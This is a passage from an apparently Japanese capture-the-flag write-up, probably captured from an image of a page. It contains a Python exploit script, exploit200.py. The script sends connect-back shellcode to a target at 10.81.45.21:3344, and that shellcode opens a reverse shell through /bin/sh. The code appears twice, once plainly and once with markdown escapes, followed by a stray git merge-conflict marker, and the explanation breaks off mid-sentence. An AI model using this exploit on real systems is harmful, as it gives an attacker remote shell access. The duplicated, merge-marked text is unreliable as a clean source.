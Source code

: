 　shellcodeを元にexploitを作成します。

-----  exploit200.py
#!/usr/bin/python
from socket import *

if __name__ == "__main__":

        for i in range(100):

                s = socket()
                s.connect(('10.81.45.21', 3344))

                shellcode = "\x6a\x61\x58\x99\x52\x42\x52\x42\x52\x68"
                shellcode += "\x56\x51\x2d\x15" ## REMOTE ADDR
                shellcode += "\xcd\x80\x68"
                shellcode += "\x10\x02\x1e\x61" ## REMOTE PORT
                shellcode += "\x89\xe1\x6a\x10\x51\x50\x51\x97"
                shellcode += "\x6a\x62\x58"

                s.send(shellcode + '\n')

                shellcode = "\xcd\x80\xb0\x5a\x52"
                shellcode += "\x57\x52\xcd\x80\x4a\x79\xf6"
                shellcode += "\x68\x2f\x73\x68\x00\x68\x2f\x62"
                shellcode += "\x69\x6e\x89\xe3\x50\x54\x53\x53"
                shellcode += "\xb0\x3b\xcd\x80"
                shellcode += "\x80\xbb\x06\x08" ## RET ADDRESS

                s.send(shellcode + '\n')
                s.close
-----
=======
\-\-\-\-\-

　shellcodeを元にexploitを作成します。

\-\-\-\-\-  exploit200.py
\#!/usr/bin/python
from socket import *

if __name__ \=\= "__main__":

        for i in range(100):

                s \= socket()
                s.connect(('10.81.45.21', 3344))

                shellcode \= "\x6a\x61\x58\x99\x52\x42\x52\x42\x52\x68"
                shellcode +\= "\x56\x51\x2d\x15" \#\# REMOTE ADDR
                shellcode +\= "\xcd\x80\x68"
                shellcode +\= "\x10\x02\x1e\x61" \#\# REMOTE PORT
                shellcode +\= "\x89\xe1\x6a\x10\x51\x50\x51\x97"
                shellcode +\= "\x6a\x62\x58"

                s.send(shellcode + '\n')

                shellcode \= "\xcd\x80\xb0\x5a\x52"
                shellcode +\= "\x57\x52\xcd\x80\x4a\x79\xf6"
                shellcode +\= "\x68\x2f\x73\x68\x00\x68\x2f\x62"
                shellcode +\= "\x69\x6e\x89\xe3\x50\x54\x53\x53"
                shellcode +\= "\xb0\x3b\xcd\x80"
                shellcode +\= "\x80\xbb\x06\x08" \#\# RET ADDRESS

                s.send(shellcode + '\n')
                s.close
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　今回作成したshellcodeは、socketを開き、connect関数を呼び出して任意のサ
